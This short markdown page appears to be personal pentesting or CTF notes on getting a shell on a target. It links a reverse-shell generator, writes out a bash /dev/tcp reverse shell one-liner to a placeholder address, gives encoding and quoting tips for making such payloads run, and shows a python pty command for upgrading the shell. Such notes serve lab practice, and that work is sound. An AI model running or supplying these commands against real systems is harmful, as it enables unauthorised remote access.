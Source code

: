```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 



## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

> if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 

> try URL encoding / double URL encoding

> quotations conflict, how to deal with it ?? 

    # embrace the whole payload with double qoutes, then escape the inside ones
    </br>
    # there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'